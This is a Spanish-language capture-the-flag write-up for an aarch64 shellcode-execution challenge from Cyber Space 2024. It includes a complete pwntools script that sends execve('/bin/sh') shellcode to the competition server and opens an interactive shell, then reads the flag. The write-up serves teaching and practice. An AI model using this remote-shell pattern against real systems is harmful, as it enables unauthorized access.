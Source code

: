 ```yaml
---
layout: post
title: Shelltester Cyber Space '24
comments: true
categories: [Pwn, Writeups, CyberSpace]
---
```


Este es un writeup de una de mis solves durante el CTF **Cyber Space 2024**. En este caso se trata de un reto de la categoría de *begginer-pwn*.

# Reconocimiento

Se nos da un binario con arquitectura *aarch64-little* (ARM de 64 bits little endian). Si lanzamos *checksec*:

```
Arch:       aarch64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

A la hora de ejecutarlo directamente nos dará un error debido a la arquitectura, para ello nos dan un *Dockerfile*, aunque también podemos conectarnos por *netcat* al servidor de la competición. Al ejecutar nos pide que le pasemos un *shellcode* y si analizamos con *gdb*, veremos que el shellcode que pasemos se ejecutará, por tanto debemos pasarle simplemente un código para dicha arquitectura.

# Explotación

Para facilitar la interacción con el servidor, nos crearemos un script con *pwntools* en *python*:

```python
#! /bin/python3

from pwn import *

context.arch = 'aarch64'

shellcode = shellcraft.execve('/bin/sh')    # Nos da un shellcode (ya hemos especificado la arquitectura arriba)
shellcode = asm(shellcode)                  # Compilamos el shellcode

p = remote('shelltester.challs.csc.tf', 1337)

p.send(shellcode)

p.interactive()
```

Ejecutando el código recibiremos una shell y sólo nos faltaría lanzar un `cat flag` para ver la flag.
